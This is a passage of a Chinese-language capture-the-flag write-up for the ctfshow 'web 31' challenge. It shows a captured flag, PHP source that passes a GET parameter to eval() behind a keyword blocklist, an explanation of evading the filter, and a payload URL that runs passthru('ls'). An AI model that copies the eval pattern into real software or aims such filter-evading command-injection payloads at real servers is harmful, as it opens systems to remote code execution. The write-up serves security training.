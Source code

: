 ```php
$flag = 'ctfshow{8fc40658-23ec-4363-92e2-93a9320f5d4e}';
```

***

## <mark style="color:blue;background-color:orange;">（3）web 31</mark>

<figure><img src="../.gitbook/assets/image 8.png" alt=""><figcaption></figcaption></figure>

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

可以看到过滤变多了，并且过滤了单引号和点和空格，单引号我们可以用双引号代替，空格也有很多可以代替的，cat可以用more等来代替，我们之前用的函数passthru可以不变。

所以得到最后的过滤语句为

```php
http://af3fbe54-a16b-4cfb-bae0-180dc1e8ba0b.challenge.ctf.show/?c=passthru("ls");
```
